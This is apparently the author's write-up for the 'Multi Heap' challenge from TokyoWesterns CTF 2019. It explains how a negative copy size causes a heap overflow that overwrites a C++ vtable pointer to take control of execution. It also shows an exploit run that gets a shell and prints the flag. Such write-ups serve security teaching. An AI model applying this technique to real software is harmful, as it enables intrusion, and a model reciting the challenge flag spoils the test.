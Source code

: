 # Multi Heap
from TokyoWesterns CTF 2019

## 配布物
* multi\_heap
* libc.so.6

## intended solution
my intended solution use an exploitation technique as known as  _wild copy_.
_wild copy_ was proposed by Google Project Zero.
original blog post is [here](https://googleprojectzero.blogspot.com/2015/03/taming-wild-copy-parallel-thread.html).

you can input negative integer as a size for copy function because of no checking for it.
a memory copy that the copy size is negative become huge heap overflow and cause a segmentation fault.
if you can use some data on memory before causing the segmentation fault, this heap overflow can be used for exploit.
this challenge was written by C++, so there is a pointer of vtable on heap segment.
you can overwrite the pointer by _wild copy_ then control rip.


Of course, I heard that unintended solution exists.
I didn't notice that, so some teams who found and used it are awesome and smart.

```
% python exploit.py r
[*] '/Users/hama/ctf/making/multi-heap/multi_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to multiheap.chal.ctf.westerns.tokyo on port 10001: Done
[*] Pwning
[*] libc_base: 0x7f5700fd3000
[*] heap_base: 0x55cd53c44000
[*] Switching to interactive mode
: $ ls
flag
multi_heap
$ cat flag
TWCTF{mulmulmulmultititi}
```


## md5
```
# md5sum ./multi_heap                                                                                                    (git)-[master]
6066b86031b6f286642c231b504c4d1c  ./multi_heap
```
